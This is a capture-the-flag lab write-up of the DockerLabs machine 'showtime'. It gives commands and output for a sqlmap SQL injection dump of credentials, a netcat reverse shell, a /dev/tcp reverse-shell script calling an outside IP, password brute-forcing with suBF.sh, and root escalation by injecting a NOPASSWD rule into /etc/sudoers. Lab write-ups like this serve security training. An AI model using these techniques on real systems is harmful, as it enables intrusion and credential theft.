



# showtime

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| showtime | maciiii___ | easy | dockerlabs |

**Summary:** The showtime machine was a SQL injection exploitation challenge followed by a three-hop lateral movement and privilege escalation chain. Nmap revealed SSH on port 22 and Apache on port 80. Gobuster discovered a `login_page/` directory. Running sqlmap against the login form's `usuario` parameter confirmed multiple injection types — boolean-based blind, error-based, and time-based blind — and dumped the `users.usuarios` table, yielding three credentials: `lucas:123321123321`, `santiago:123456123456`, and `joe:MiClaveEsInhackeable`. Logging in as `joe` and navigating the application revealed a command injection panel. A reverse shell was triggered through the panel and caught by netcat. The TTY was stabilised using `pty`. User enumeration revealed two interactive accounts: `joe` and `luciano`. A hidden GTA San Andreas cheat code list was found at `/tmp/.hidden_text.txt`. The list was deduplicated, lowercased, and used as a wordlist with `suBF.sh` to crack `joe`'s system password as `chittychittybangbang`. A `su - joe` succeeded. As `joe`, `sudo -l` showed passwordless access to `/bin/posh` as `luciano`. Running `sudo -u luciano /bin/posh` spawned a shell as `luciano`. As `luciano`, a `script.sh` was found in the home directory and `sudo -l` showed passwordless access to run `/bin/bash /home/luciano/script.sh` as root. The script was overwritten with a single `echo` command to append `luciano ALL=(ALL) NOPASSWD:ALL` to `/etc/sudoers`. Running `sudo /bin/bash /home/luciano/script.sh` executed the injection as root. `sudo -i` produced a clean root shell.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/showtime]
└─$ sudo bash auto_deploy.sh showtime.tar  
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/showtime]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-05 07:36 +0700
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:9a:9f:b3:17:be:3d:2e:12:05:0f:a4:61:c3:b3:76 (ECDSA)
|_  256 69:8f:5c:4f:14:b0:4d:b6:b7:59:34:4d:b9:03:40:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: cs
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: B2:C7:38:1F:3D:75 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.11 seconds
```

The scan revealed SSH on port 22 and Apache on port 80.

---

## Initial Access

### SQL Injection via sqlmap and Command Injection RCE

**3. Gobuster Directory Enumeration**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/showtime]
└─$ gobuster dir -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,html,tar,env,bak,js,css,png,php,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
index.html           (Status: 200) [Size: 14646]
assets               (Status: 301) [Size: 309] [--> http://172.17.0.2/assets/]
icon                 (Status: 301) [Size: 307] [--> http://172.17.0.2/icon/]
css                  (Status: 301) [Size: 306] [--> http://172.17.0.2/css/]
js                   (Status: 301) [Size: 305] [--> http://172.17.0.2/js/]
fonts                (Status: 301) [Size: 308] [--> http://172.17.0.2/fonts/]
login_page           (Status: 301) [Size: 313] [--> http://172.17.0.2/login_page/]
server-status        (Status: 403) [Size: 275]
Progress: 2426127 / 2426127 (100.00%)
===============================================================
Finished
===============================================================
```

**4. Dumping the users Database with sqlmap**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/showtime]
└─$ sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch -D users --dump     
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.10.6#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:51:13 /2026-08-05/

[07:51:13] [INFO] testing connection to the target URL
[07:51:13] [INFO] searching for forms
[1/1] Form:
POST http://172.17.0.2/login_page/auth.php
POST data: usuario=&contrase%C3%B1a=
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: usuario=&contrase%C3%B1a=] (Warning: blank fields detected): usuario=&contrase%C3%B1a=
do you want to fill blank fields with random values? [Y/n] Y
[07:51:13] [INFO] resuming back-end DBMS 'mysql' 
[07:51:13] [INFO] using '/home/ouba/.local/share/sqlmap/output/results-08052026_0751am.csv' as the CSV results file in multiple targets mode
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=n293hros47h...4lju65imuf'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: usuario (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: usuario=OXzc' OR NOT 8953=8953#&contrase%C3%B1a=XgyW

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: usuario=OXzc' AND EXTRACTVALUE(1402,CONCAT(0x5c,0x716a7a6271,(SELECT (ELT(1402=1402,1))),0x7171706b71))-- mmSu&contrase%C3%B1a=XgyW

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: usuario=OXzc' AND (SELECT 7118 FROM (SELECT(SLEEP(5)))GqJA)-- JLNu&contrase%C3%B1a=XgyW
---
do you want to exploit this SQL injection? [Y/n] Y
[07:51:13] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP, Apache 2.4.58
back-end DBMS: MySQL >= 5.1
[07:51:13] [INFO] fetching tables for database: 'users'
[07:51:13] [INFO] resumed: 'usuarios'
[07:51:13] [INFO] fetching columns for table 'usuarios' in database 'users'
[07:51:13] [INFO] resumed: 'id'
[07:51:13] [INFO] resumed: 'int unsigned'
[07:51:13] [INFO] resumed: 'username'
[07:51:13] [INFO] resumed: 'varchar(50)'
[07:51:13] [INFO] resumed: 'password'
[07:51:13] [INFO] resumed: 'varchar(50)'
[07:51:13] [INFO] fetching entries for table 'usuarios' in database 'users'
[07:51:13] [INFO] resumed: '1'
[07:51:13] [INFO] resumed: '123321123321'
[07:51:13] [INFO] resumed: 'lucas'
[07:51:13] [INFO] resumed: '2'
[07:51:13] [INFO] resumed: '123456123456'
[07:51:13] [INFO] resumed: 'santiago'
[07:51:13] [INFO] resumed: '3'
[07:51:13] [INFO] resumed: 'MiClaveEsInhackeable'
[07:51:13] [INFO] resumed: 'joe'
Database: users
Table: usuarios
[3 entries]
+----+----------------------+----------+
| id | password             | username |
+----+----------------------+----------+
| 1  | 123321123321         | lucas    |
| 2  | 123456123456         | santiago |
| 3  | MiClaveEsInhackeable | joe      |
+----+----------------------+----------+

[07:51:13] [INFO] table 'users.usuarios' dumped to CSV file '/home/ouba/.local/share/sqlmap/output/172.17.0.2/dump/users/usuarios.csv'
[07:51:13] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/ouba/.local/share/sqlmap/output/results-08052026_0751am.csv'

[*] ending @ 07:51:13 /2026-08-05/
```

Three credentials were dumped. The `joe` account with the standout password `MiClaveEsInhackeable` was used to log in to the web application.

**5. Logging in as joe and Triggering the Reverse Shell**





A netcat listener was started on the attacker machine.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/showtime]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

A reverse shell was triggered through the command injection panel inside the application.



**6. Catching the Shell and Stabilising the TTY**

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38828
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2b03cac74c8b:/var/www/html/login_page$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<age$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@2b03cac74c8b:/var/www/html/login_page$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                             
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/showtime]
└─$ stty raw -echo; fg                                         
[1]  + continued  nc -lvnp 4444

www-data@2b03cac74c8b:/var/www/html/login_page$ stty rows 80 cols 130
www-data@2b03cac74c8b:/var/www/html/login_page$ export TERM=xterm
www-data@2b03cac74c8b:/var/www/html/login_page$ export SHELL=/bin/bash
```

A stable TTY shell was obtained as `www-data`.

---

## Lateral Movement

### Hidden GTA SA Cheat List as Wordlist to Crack joe's Password

**7. User Enumeration and Finding the Hidden Wordlist**

```bash
www-data@2b03cac74c8b:/var/www/html$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
joe:x:1001:1001:joe,,,:/home/joe:/bin/bash
luciano:x:1002:1002:luciano,,,:/home/luciano:/bin/bash
www-data@2b03cac74c8b:/var/www/html$ ls -la /home
total 20
drwxr-xr-x 1 root    root    4096 Jul 23  2024 .
drwxr-xr-x 1 root    root    4096 Aug  4 21:34 ..
drwxr-x--- 1 joe     joe     4096 Jul 23  2024 joe
drwxr-x--- 3 luciano luciano 4096 Jul 23  2024 luciano
drwxr-x--- 2 ubuntu  ubuntu  4096 Jun  4  2024 ubuntu
```

```bash
www-data@2b03cac74c8b:/var/www/html/login_page$ cat /tmp/.hidden_text.txt 
Martin, esta es mi lista de mis trucos favoritos de gta sa:


HESOYAM
UZUMYMW
JUMPJET
LXGIWYL
KJKSZPJ
YECGAA
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
CPKTNWT
WORSHIPME
NATURALTALENT
BUFFMEUP
AEZAKMI
BRINGITON
FULLCLIP
CVWKXAM
OUIQDMW
PROFESSIONALSKIT
PROFESSIONALTOOLS
NINJATOWN
STINGLIKEABEE
GHOSTTOWN
BLUESUEDESHOES
SPEEDITUP
SLOWITDOWN
SLOWITDOWNBRO
BAGUVIX
CJPHONEHOME
SPEEDFREAK
BUBBLECARS
KANGAROO
CRAZYTOWN
EVERYONEISRICH
EVERYONEISPOOR
CHITTYCHITTYBANGBANG
FLYINGTOSTUNT
FLYINGFISH
MONSTERMASH
BIFBUZZ
WHEELSONLYPLEASE
SLOWMO
SPECIALK
JUMPJET
FLYINGTOSTUNT
FLYINGFISH
ASNAEB
BTCDBCB
KVGYZQK
HELLOLADIES
BGLUAWML
OSRBLHH
LJSPQK
VKYPQCF
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
CPKTNWT
WORSHIPME
NATURALTALENT
BUFFMEUP
BRINGITON
FULLCLIP
CVWKXAM
OUIQDMW
PROFESSIONALSKIT
PROFESSIONALTOOLS
NINJATOWN
STINGLIKEABEE
GHOSTTOWN
SPEEDITUP
SLOWITDOWN
SLOWITDOWNBRO
BAGUVIX
SPEEDFREAK
BUBBLECARS
```

**8. Transferring suBF.sh and Bruteforcing joe**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/opt]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
172.17.0.2 - - [05/Aug/2026 08:23:44] "GET /suBF.sh HTTP/1.1" 200 -
```

```bash
www-data@2b03cac74c8b:/tmp$ wget http://172.17.0.1:8080/suBF.sh
--2026-08-04 23:23:29--  http://172.17.0.1:8080/suBF.sh
Connecting to 172.17.0.1:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4083 (4.0K) [application/x-sh]
Saving to: 'suBF.sh'

suBF.sh                            0%[                                                         ]       0  --.suBF.sh                          100%[========================================================>]   3.99K  --.-KB/s    in 0s      

2026-08-04 23:23:29 (280 MB/s) - 'suBF.sh' saved [4083/4083]
```

The cheat list was deduplicated (skipping the header line) and lowercased. The uppercase wordlist failed; the lowercase one cracked `joe`'s password.

```bash
www-data@2b03cac74c8b:/tmp$ which tr
/usr/bin/tr
www-data@2b03cac74c8b:/tmp$ tail -n +2 .hidden_text.txt | sort -u > /tmp/wordlist.txt
www-data@2b03cac74c8b:/tmp$ tr 'A-Z' 'a-z' < wordlist.txt > lowercase_wordlist.txt
www-data@2b03cac74c8b:/tmp$ ./suBF.sh -u joe -w wordlist.txt 
  [+] Bruteforcing joe...
  Wordlist exhausted
www-data@2b03cac74c8b:/tmp$ ./suBF.sh -u joe -w lowercase_wordlist.txt 
  [+] Bruteforcing joe...
  You can login as joe using password: chittychittybangbang
  Wordlist exhausted
```

**9. Switching to joe**

```bash
www-data@2b03cac74c8b:/tmp$ su - joe
Password: 
joe@2b03cac74c8b:~$ id;whoami;hostname
uid=1001(joe) gid=1001(joe) groups=1001(joe),100(users)
joe
2b03cac74c8b
```

### joe to luciano via sudo posh

**10. joe's sudo and Spawning luciano Shell**

```bash
joe@2b03cac74c8b:~$ sudo -l
Matching Defaults entries for joe on 2b03cac74c8b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joe may run the following commands on 2b03cac74c8b:
    (luciano) NOPASSWD: /bin/posh
joe@2b03cac74c8b:~$ ls -la /bin/posh
-rwxr-xr-x 1 root root 149352 May 18  2020 /bin/posh
joe@2b03cac74c8b:~$ sudo -u luciano /bin/posh
$ id 
uid=1002(luciano) gid=1002(luciano) groups=1002(luciano),100(users)
```

---

## Privilege Escalation

### luciano script.sh Hijack via sudo bash

**11. Inspecting luciano's Home and sudo Permissions**

```bash
$ cd ~
$ ls -la
total 28
drwxr-x--- 3 luciano luciano 4096 Jul 23  2024 .
drwxr-xr-x 1 root    root    4096 Jul 23  2024 ..
-rw-r--r-- 1 luciano luciano  220 Jul 23  2024 .bash_logout
-rw-r--r-- 1 luciano luciano 3771 Jul 23  2024 .bashrc
drwxrwxr-x 3 luciano luciano 4096 Jul 23  2024 .local
-rw-r--r-- 1 luciano luciano  807 Jul 23  2024 .profile
-rw-rw-r-- 1 luciano luciano  112 Jul 23  2024 script.sh
$ cat script.sh
#!/bin/bash


IP="192.168.1.100"
PORT="4444"

bash -c 'exec 5<>/dev/tcp/'$IP'/'$PORT'; cat <&5 | bash >&5 2>&5'
$ sudo -l  
Matching Defaults entries for luciano on 2b03cac74c8b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luciano may run the following commands on 2b03cac74c8b:
    (root) NOPASSWD: /bin/bash /home/luciano/script.sh
```

`luciano` owned `script.sh` with write permission. The file was overwritten with a sudoers injection command and run as root.

**12. Overwriting script.sh and Escalating**

```bash
$ echo 'echo "luciano ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > /home/luciano/script.sh
$ sudo /bin/bash /home/luciano/script.sh
$ sudo -l
Matching Defaults entries for luciano on d9c4666c8598:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luciano may run the following commands on d9c4666c8598:
    (root) NOPASSWD: /bin/bash /home/luciano/script.sh
    (ALL) NOPASSWD: ALL
$ sudo -i
root@d9c4666c8598:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
d9c4666c8598
```

Full root access was achieved.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified SSH on port 22 and Apache on port 80. Gobuster discovered a `login_page/` directory with a login form.
2. **SQL Injection**: sqlmap confirmed boolean-based blind, error-based, and time-based blind SQL injection in the `usuario` POST parameter. The `users.usuarios` table was dumped, yielding three credentials including `joe:MiClaveEsInhackeable`.
3. **Initial Shell**: Logging in as `joe` revealed a command injection panel. A reverse shell was triggered through the panel, caught by netcat, and the TTY was stabilised via `pty`.
4. **Lateral Movement to joe**: A hidden file `/tmp/.hidden_text.txt` contained a GTA SA cheat code list. The list was deduplicated, lowercased, and fed to `suBF.sh`. The lowercase wordlist cracked `joe`'s system password as `chittychittybangbang`. `su - joe` succeeded. `sudo -l` showed `/bin/posh` as `luciano`. Running `sudo -u luciano /bin/posh` spawned a `luciano` shell.
5. **Privilege Escalation**: As `luciano`, `sudo -l` showed `/bin/bash /home/luciano/script.sh` as root. `luciano` owned `script.sh` with write access. It was overwritten with an `echo` to inject `luciano ALL=(ALL) NOPASSWD:ALL` into `/etc/sudoers`. Running `sudo /bin/bash /home/luciano/script.sh` injected the rule. `sudo -i` produced a clean root shell.
